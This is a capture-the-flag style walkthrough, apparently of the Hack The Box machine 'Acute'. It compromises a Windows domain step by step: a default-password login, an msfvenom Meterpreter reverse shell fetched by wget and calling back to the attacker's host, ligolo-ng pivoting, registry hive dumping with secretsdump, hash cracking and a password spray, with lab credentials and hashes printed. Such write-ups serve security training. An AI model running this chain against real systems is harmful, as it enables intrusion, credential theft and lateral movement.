# Acute
## Enumeration
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn 10.129.136.40 -vv

Nmap scan report for 10.129.136.40
Host is up, received user-set (0.020s latency).
Scanned at 2026-10-20 16:09:47 BST for 66s
Not shown: 65534 filtered tcp ports (no-response)
PORT    STATE SERVICE REASON
443/tcp open  https   syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 66.25 seconds
```

### Nmap
```python
❯❯❯ nmap -p 443 -A --min-rate=2000 -sT -Pn 10.129.136.40
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-20 16:11 +0100
Nmap scan report for 10.129.136.40
Host is up (0.013s latency).

PORT    STATE SERVICE    VERSION
443/tcp open  ssl/https?
|_ssl-date: 2026-10-20T15:13:17+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
| tls-alpn: 
|   h2
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only a web service open

`atsserver.acute.local` ill add to `/etc/hosts`

## HTTPS (443)


Im running this through my proxy and im seeing wordpress endpoints

There is a docx i can download



This docx file reveals a potential user `lois`





There is what looks like a default password

```python
Password1!
```



In the document there is also a hyperlink to `https://atsserver.acute.local/Acute_Staff_Access/`



This takes me to an interesting login page

There is no option to register



There is also more connection options


There is also some more potential users on the about page

```python
aileen wallace
charlotte hall
evan davies
ieuan monks
joshua morgan
lois hopkins
```

Ill try the default password with some of the users on the login form

Attempting auth on several different users, but the user `edavies` gives a different error



This tells me the credentials are valid, but the connection endpoint is unauthorized

## Access to PSWA 

```python
❯❯❯ exiftool New_Starter_CheckList_v7.docx                  
ExifTool Version Number         : 13.55
File Name                       : New_Starter_CheckList_v7.docx
Directory                       : .
File Size                       : 35 kB
File Modification Date/Time     : 2026:10:20 16:19:39+01:00
File Access Date/Time           : 2026:10:20 16:19:54+01:00
File Inode Change Date/Time     : 2026:10:20 16:19:47+01:00
File Permissions                : -rw-rw-r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x079b7eb2
Zip Compressed Size             : 428
Zip Uncompressed Size           : 2527
Zip File Name                   : [Content_Types].xml
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
Revision Number                 : 8
Last Printed                    : 2021:01:04 15:54:00Z
Create Date                     : 2021:12:08 14:21:00Z
Modify Date                     : 2021:12:22 00:39:00Z
Template                        : Normal.dotm
Total Edit Time                 : 2.6 hours
Pages                           : 3
Words                           : 886
Characters                      : 5055
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 42
Paragraphs                      : 11
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : University of Marvel
Links Up To Date                : No
Characters With Spaces          : 5930
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0000
```

So after realizing the creds are valid but what im trying to connect to isnt, i return to enumeration

Getting the metadata of the pdf file gives me two things, `fcastle` is a user, and the computer name `acute-pc01`



I now am able to login

## PWSA Enumeration



This isnt running in constrained language mode



These are the users with a profile 



There is a directory setup as a defender exclusion

This is good to know if i need to do any tunneling at any point



`22.1` is the webserver

I am currently remoted into `22.2`



Ill query the users with an active logon, i dont think this is me, although im running as `edavies` this looks to be a different logon type

A console session is a direct session, so in other words the user is actually sitting at the machine, so this cant be me, as im remoted in

In order to see what the user is doing in this session, it might be a good idea to upload a beacon to the target and place it in utils then i can monitor the session

## Meterpreter session 

I think this active session is interesting and if i remember correctly meterpreter has a built in option to watch the screen 

```python
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=1337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: shell.exe
```

Ill create a shell

```python
❯❯❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ill start a webserver to host it

```python
❯❯❯ msfconsole

msf > use exploit/multi/handler 

msf exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.61
msf exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
```

Ill set all the correct options that were set in msfvenom and then run with listener with `run`

```python
wget http://10.10.14.61/shell.exe -o shell.exe
```

In the PWSA session ill use this command to get the shell

```python
./shell.exe
```

Then ill just run it



I now have a meterpreter session

Using the screenshare function i can capture the credentials

```python
imonks:W3_4R3_th3_f0rce.
```

I have the credentials

## Setting up ligolo-ng on the target

I now have credentials, but i still cannot reach the internal network

Ill download both the linux proxy and the windows agent from the github releases

```python
❯❯❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ill start a web server on my machine

```python
PS C:\Utils> wget http://10.10.14.61/agent.exe -o agent.exe
```

Ill drop into a shell from my meterpreter session, then download the agent

```python
❯❯❯ sudo ./proxy -selfcert                                       
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.9.2

ligolo-ng »  
```

Ill then start the proxy on my machine

```python
PS C:\Utils> .\agent.exe -connect 10.10.14.61:11601 --retry --ignore-cert
.\agent.exe -connect 10.10.14.61:11601 --retry --ignore-cert
time="2026-10-22T17:09:26+01:00" level=warning msg="warning, certificate validation disabled"
time="2026-10-22T17:09:26+01:00" level=info msg="Connection established" addr="10.10.14.61:11601"
```

Ill trigger the connection

```python
[Agent : ACUTE\edavies@Acute-PC01] » ifcreate --name ligolo
INFO[0108] Creating a new ligolo interface...           
INFO[0108] Interface created!
```

Ill select the new session, then create a new interface

```python
[Agent : ACUTE\edavies@Acute-PC01] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet 2                     │
│ Hardware MAC │ 00:15:5d:e8:0a:01              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv6 Address │ fe80::9513:4361:23ec:64fd/64   │
│ IPv4 Address │ 172.16.22.2/24                 │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 1                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : ACUTE\edavies@Acute-PC01] »  
```

Ill make note of the internal IP address `172.16.22.2/24`

```python
[Agent : ACUTE\edavies@Acute-PC01] » route_add --name ligolo --route 172.16.22.0/24
INFO[0204] Route created.                               
[Agent : ACUTE\edavies@Acute-PC01] » tunnel_start 
INFO[0209] Starting tunnel to ACUTE\edavies@Acute-PC01 (00155de80a01) 
[Agent : ACUTE\edavies@Acute-PC01] » 
```

Then ill use the IP to add routing info to the created interface then start the tunnel

Now this is setup i should be able to access `.1` which is the `ATSSERVER` and `.2` which is the `acute-pc01`

## Nmap on ATSSERVER

I have already scanned this at the start but only port 443 was open externally

```python
❯❯❯ nmap -p- -sT -Pn 172.16.22.1 -vv 

Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-22 17:15 +0100
Initiating Parallel DNS resolution of 1 host. at 17:15
Completed Parallel DNS resolution of 1 host. at 17:15, 0.50s elapsed
Initiating Connect Scan at 17:15
Scanning 172.16.22.1 [65535 ports]
Discovered open port 53/tcp on 172.16.22.1
Discovered open port 445/tcp on 172.16.22.1
Discovered open port 135/tcp on 172.16.22.1
Discovered open port 139/tcp on 172.16.22.1
Discovered open port 443/tcp on 172.16.22.1
Discovered open port 3268/tcp on 172.16.22.1
Connect Scan Timing: About 15.05% done; ETC: 17:18 (0:02:55 remaining)
Discovered open port 464/tcp on 172.16.22.1
Discovered open port 88/tcp on 172.16.22.1
Connect Scan Timing: About 30.20% done; ETC: 17:18 (0:02:34 remaining)
Discovered open port 49692/tcp on 172.16.22.1
Discovered open port 49691/tcp on 172.16.22.1
Discovered open port 9389/tcp on 172.16.22.1
Discovered open port 49902/tcp on 172.16.22.1
Discovered open port 636/tcp on 172.16.22.1
Discovered open port 2179/tcp on 172.16.22.1
Discovered open port 389/tcp on 172.16.22.1
Discovered open port 49668/tcp on 172.16.22.1
Connect Scan Timing: About 48.38% done; ETC: 17:19 (0:02:17 remaining)
Discovered open port 593/tcp on 172.16.22.1
Discovered open port 3269/tcp on 172.16.22.1
Discovered open port 51011/tcp on 172.16.22.1
```

Judging from the verbose output this is a domain controller

```python
172.16.22.1	atsserver.acute.local acute.local atsserver
172.16.22.2	acute-pc01.acute.local acute-pc01
```

Ill update my hosts file

## Domain enumeration

Now i can reach the DC ill enumerate the domain

```python
❯❯❯ nxc smb atsserver.acute.local -u imonks -p 'W3_4R3_th3_f0rce.' -k
SMB         atsserver.acute.local 445    atsserver        [*]  x64 (name:atsserver) (domain:acute.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         atsserver.acute.local 445    atsserver        [+] acute.local\imonks:W3_4R3_th3_f0rce. 
```

The creds found earlier i can auth, NTLM is disabled!

There are only default shares

```python
❯❯❯ nxc smb atsserver.acute.local -u imonks -p 'W3_4R3_th3_f0rce.' -k --rid-brute 20000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
ATSSERVER$
MARVEL-PC01$
awallace
chall
edavies
imonks
jmorgan
lhopkins
ACUTE-PC01$
```

Ill get all the users using `--rid-brute` to also get machine accounts

There is also no lockout policy

There also isnt much in bloodhound

## Command execution on `ATSSERVER` from `Acute-PC01`

Since my meterpreter session is busy running the ligolo agennt ill open a winrm session on `acute-pc01` as `edavies`

```python
evil-winrm-py PS C:\Users\edavies\Documents> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
evil-winrm-py PS C:\Users\edavies\Documents> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks", $pass)
```

Ill create another credential object for `imonks`

```python
evil-winrm-py PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {whoami} -Credential $cred -ConfigurationName dc_manage
acute\imonks
```

Ill use the credential object to run a command as that user on the ATSSERVER

I used `dc_manage` because this was what `edavies` was using when i captured his credentials in the powershell session

```python
evil-winrm-py PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {ls C:\Users\imonks\Desktop} -Credential $cred -ConfigurationName dc_manage


    Directory: C:\Users\imonks\Desktop


Mode                 LastWriteTime         Length Name                                PSComputerName                    
----                 -------------         ------ ----                                --------------                    
-ar---        10/22/2026   4:24 PM             34 user.txt                            ATSSERVER                         
-a----         1/11/2022   6:04 PM            602 wm.ps1                              ATSSERVER                         


evil-winrm-py PS C:\Users\edavies\Documents>
```

There is an interesting file on the desktop

```python
evil-winrm-py PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {cat C:\Users\imonks\Desktop\wm.ps1} -Credential $cred -ConfigurationName dc_manage
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
evil-winrm-py PS C:\Users\edavies\Documents>
```

The user `jmorgan` is in the administrators group on the `acute-pc01`

```python
evil-winrm-py PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {((cat C:\Users\imonks\Desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'net localgroup Administrators edavies /add') | sc -Path C:\Users\imonks\Desktop\wm.ps1} -Credential $cred -ConfigurationName dc_manage
```

This command will add the current user to the administrators group

```python
evil-winrm-py PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1} -Credential $cred -ConfigurationName dc_manage
The command completed successfully.

evil-winrm-py PS C:\Users\edavies\Documents>
```

Then ill just run the script

```python
evil-winrm-py PS C:\Users\edavies\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\edavies\Documents>
```

And after logging out and logging back in i am now an admin on `Acute-PC01`

## Dumping `SAM` `SYSTEM` and `SECURITY`

```python
evil-winrm-py PS C:\Utils> reg save hklm\system C:\Temp\system.bak
The operation completed successfully.

evil-winrm-py PS C:\Utils> reg save hklm\sam C:\Temp\sam.bak
The operation completed successfully.

evil-winrm-py PS C:\Temp> reg save hklm\security C:\Temp\security.bak
The operation completed successfully.
```

First ill save copies to temp

```python
evil-winrm-py PS C:\Temp> download sam.bak .
Downloading C:\Temp\sam.bak: 64.0kB [00:00, 209MB/s]                                                         
[+] File downloaded successfully and saved as: /home/kali/htb/acute/sam.bak
evil-winrm-py PS C:\Temp> download system.bak .
Downloading C:\Temp\system.bak: 100%|███████████████████████████████████| 11.6M/11.6M [00:05<00:00, 2.42MB/s]
[+] File downloaded successfully and saved as: /home/kali/htb/acute/system.bak
evil-winrm-py PS C:\Temp> download security.bak .
Downloading C:\Temp\security.bak: 64.0kB [00:00, 352MB/s]                                                    
[+] File downloaded successfully and saved as: /home/kali/htb/acute/security.bak
```

Then ill download all the files

```python
❯❯❯ secretsdump.py -sam sam.bak -system system.bak -security security.bak LOCAL 
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
ACUTE\ACUTE-PC01$:aes256-cts-hmac-sha1-96:be9a3601da45d14d6e11b5364cdf943c6050b4dc325120c6931d77d55ea77774
ACUTE\ACUTE-PC01$:aes128-cts-hmac-sha1-96:10b79d6f6567a7a4fe3b15033129a496
ACUTE\ACUTE-PC01$:des-cbc-md5:15d06815f17054ef
ACUTE\ACUTE-PC01$:plain_password_hex:385ff9866bd5f5787b3d2407f138ef11820d1878ff3867d3339eb3214622b619fb7beefbe8011f0c60143237c4fc237268dd2a7b28e3865e31a64a0634cbbdcc74d392136c69b47022b6ba57728b2f1eb9c14079a24c483c9357d2ac2c16553a0e473c9f47e24cc11291de8c381e50836a0a09b728bfe62239bee7dd00f1e5445bbd9786a12d846564573955bcb0f69b2f2aed3682b12680fc899c2b34254da22d058b7efbd37c973f6aa55981bb9328527778fdcf502c091ee87886209d17d1ecfd9b482e3cca85b2daa4af2148401ed47968ee78007f6c4511be37579a87326cd501cdc16676b5c21194bd8062db36
ACUTE\ACUTE-PC01$:aad3b435b51404eeaad3b435b51404ee:d153d12682a0b4f0712c7f2e6e0dade8:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x574d0cc939c9f986cba32d1546a7fa28747425e0
dpapi_userkey:0x4a77ea6673a027ecd81e4ca010b1d3f70fe1d9cd
[*] NL$KM 
 0000   62 2A 29 8D F9 77 CC DD  EE EB 23 20 B2 E2 AF 59   b*)..w....# ...Y
 0010   0B F6 33 E0 95 5D B0 03  B1 01 85 55 9D 16 64 4D   ..3..].....U..dM
 0020   53 1F 93 7B FB EF 2B F7  6E 76 B1 02 3D 63 CC DF   S..{..+.nv..=c..
 0030   F0 35 6F E3 19 8A 69 C1  2E F6 78 80 45 51 EE 0A   .5o...i...x.EQ..
NL$KM:622a298df977ccddeeeb2320b2e2af590bf633e0955db003b10185559d16644d531f937bfbef2bf76e76b1023d63ccdff0356fe3198a69c12ef678804551ee0a
[*] Cleaning up... 
```

There is no plaintext LSA passwords

```python
❯❯❯ hashcat -m 1000 'a29f7623fd11550def0192de9246f46b' /usr/share/wordlists/rockyou.txt

a29f7623fd11550def0192de9246f46b:Password@123 
```

The administrator accounts hash cracked

## Password spray leads to user compromise

```python
❯❯❯ nxc smb atsserver.acute.local -u users.txt -p 'Password@123' -k --continue-on-success 
SMB         atsserver.acute.local 445    atsserver        [*]  x64 (name:atsserver) (domain:acute.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\Administrator:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\Guest:Password@123 KDC_ERR_CLIENT_REVOKED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\krbtgt:Password@123 KDC_ERR_CLIENT_REVOKED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\ATSSERVER$:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\MARVEL-PC01$:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [+] acute.local\awallace:Password@123 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\chall:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\edavies:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\imonks:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\jmorgan:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\lhopkins:Password@123 KDC_ERR_PREAUTH_FAILED 
SMB         atsserver.acute.local 445    atsserver        [-] acute.local\ACUTE-PC01$:Password@123 KDC_ERR_PREAUTH_FAILED
```

I have compromised `awallace`

## Domain Admin

```python
evil-winrm-py PS C:\Temp> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
evil-winrm-py PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
```

Once again ill set up another credential for the new user

```python
evil-winrm-py PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {whoami} -Credential $cred -ConfigurationName dc_manage
acute\awallace
```

And this proves i can execute commands as this user

